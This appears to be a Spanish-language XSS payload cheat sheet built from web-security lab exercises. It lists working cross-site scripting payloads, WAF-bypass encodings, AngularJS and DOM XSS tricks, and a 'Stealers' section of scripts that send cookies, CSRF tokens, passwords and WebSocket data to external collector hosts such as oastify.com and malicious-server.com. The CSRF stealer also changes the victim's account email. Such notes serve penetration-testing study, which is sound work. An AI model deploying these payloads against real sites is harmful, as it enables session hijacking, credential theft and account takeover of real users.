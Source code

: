 -- -
## **bXSS**
```html
<img/src/onerror=import('https://xss0r.com/c/vacasa');//>
```


---

## **Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
abc’”><><img src=1 onerror=alert(document.cookie)>
```

---

## **Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---
## **Payloads segun ocaciones**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

**Escapando de los tags originales y poniendo mis propios tags**
```html
"><script>alert(0)</script>
```

**Buscando cargar una imagen erronea para asi generar un error**
```html
<img src=x onerror=alert(0)>
```

**Si se esta utilizando Jquery**
```html
1. #<img src=x onerror=alert(0)>
Si es que se refleja

2. <iframe src="https://URL/#" onload="this.src += '<img src=0 onerror=alert(0)>'"></iframe>
```

**Si vemos que lo que inyectamos se refleja en un `<input>`**
```html
" onmouseover="alert(0)
```

**Si jugamos con la declaracion de variables**
```javascript
'-alert(1)-'
kike'; alert(0); var probando='testing
kike'; alert(0)//
kike\'%2balert(0);// ---> siempre y cuando nos escape la '\'
```

**Si la url esta pasando parametros por post, intentar mandarlos por GET como otro parametro aparte y cerrar los tags en los que esta encasillado**
```python
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1 ---> el servidor envia ahi data por POST en diversos parametros
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1&storeId=</option></select><script>alert(0)</script> ---> Le paso data por que mandaba por POST, solo que por GET, cierro las etquietas y asi se ejecuto el codigo reflejado
```

**Si esta usando AngularJS y vemos la palabra ng-app en el codigo**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Si nuestra data se refleja en un json y/o se esta ejecutando angularJS, vale la pena probar**
```javascript 
asdas\"-alert(0)}//
```

**Si permite usar body y onresize**
```html
<iframe src="https://0ad6008404cf2e4a805d219f00200007.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>
```

**Si vemos que no se pueden usar etiquetas comunes, probamos usando etiquetas custom**
```html
<custom id=identifier onfocus=alert(0) tabindex=1>#identifier
```

**Si permite el uso de svg y anchor pero no el href**
```javascript
<svg><animateTransform onbegin=alert(0)>
<svg><a><animate attributeName=href values=javascript:alert(0) /><text x=50 y=50>Click me</text></a>
```

**Si podemos modificar parte de un canonical link tag**
```javascript
https://URL/?'accesskey='x'onclick='alert(0)
```

**Cerrando el tag script en el cual estaba encerrado**
```javascript
</script><script>alert(0)</script>
```

**Abusando del evento onclick con caracteres escapados**
```javascript
http://kike.com&apos;+alert(0)+&apos;
```

**Si la variable se encierra entre backticks:**
```javascript
${alert(0)}
```

**Si esta usando angularJS 1.4.4 y no se puede usar ' ni "**
```javascript
?search=&toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

**Invocar alert escapando del contexto y sin parentesis ni backticks**
```javascript
payload(x=x=>{throw/**/onerror=alert,1337},toString=x,window+'')cierre(,{x:')
```

**Aprovechando una HTMLi para crear un boton malicioso**
```html
my-account?email=prueba"></form><form class="login_form" name="myform" action="https://exploit-0aa900d0042394388054026e017a0088.exploit-server.net/exploit" method="GET"><button class=button type=submit>Click me</button>
```

**Aprovechando insercion en el content CSP**
```html
script-src-elem 'unsafe-inline'
```

### **DOM XSS**
**Aprovechando `window.addEventListener` y `Postmessage`**
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("<img src=x onerror=alert(0)","*")'></iframe>
```

*Abusando de  location.href*
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("javascript:alert(0)//https://kike.com","*")'></iframe>
```

*Abusando de json.parse*
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:alert(0)\"}","*")'></iframe>
```

*Manipulando cookies y alterando el href*
```html
<iframe src="https://URL/product?productId=3&'><script>alert(0)</script>" onload="if(!window.x)this.src='https://URL';window.x=1;"></iframe>
```

*Explotando DOM Cloberring y DOM purify*
```html
<a id=defaultAvatar>
<a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(0)>//">

<form id=x tabindex=0 onfocus=alert(0)><input id=attributes>
<iframe src="https://URL/post?postId=4" onload="setTimeout(() => this.src += '#x', 500);"></iframe>

```
---
## **Stealers**
### **Cookie stealer**
```javascript
<script>
	fetch("https://URL/?cookie=" + btoa(document.cookie));
</script>
```

### **CSRF stealer**
```javascript
<script>
	var req = new XMLHttpRequest();
	req.open("GET", "/my-account", true);
	req.send();
	
	var response = req.responseText;
	var csrf_token = response.match(/name="csrf" value="(\w+)"/)[1];
	
	var req2 = new XMLHttpRequest();
	req2.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?response=' + btoa(response), false);
	req2.send();
	
	var req3 = new XMLHttpRequest();
	req3.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?token=' + btoa(csrf_token), false);
	req3.send();

	var req4 = new XMLHttpRequest();
	req4.open('POST', "/my-account/change-email", true);
	req4.setRequestHeader("Content-Type","application/x-www-form-urlencoded")
	var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token);
	req4.send();
	
</script>
```

```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = handleResponse; 
	req.open('get','/my-account',true);
	req.send(); 
	function handleResponse() { 
		var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
		var changeReq = new XMLHttpRequest(); 
		changeReq.open('post', '/my-account/change-email', true); 
		changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>

```

## **Password stealer**

```javascript
`<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://ugee0gt5d0krro32q1x1km9wun0eo8cx.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">`
```

```javascript
<script>
function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 8);
  data.append('comment', `${username}:${password}`);
  data.append('name', 'victim');
  data.append('email', 'zenshell@zenshell.ninja');
  data.append('website', 'http://www.zenshell.ninja');

  fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
  });
}
</script>
```

## **Websocket Steales**

```javascript
<script>
	ws = new WebSocket("https://victim-server/chat")
	
	ws.onopen = function() {
		ws.send("READY");
	}
		
	ws.onmessage = function(event){
		fetch("https://malicious-server.com/?data=" + btoa(event.data))
	}
</script>
```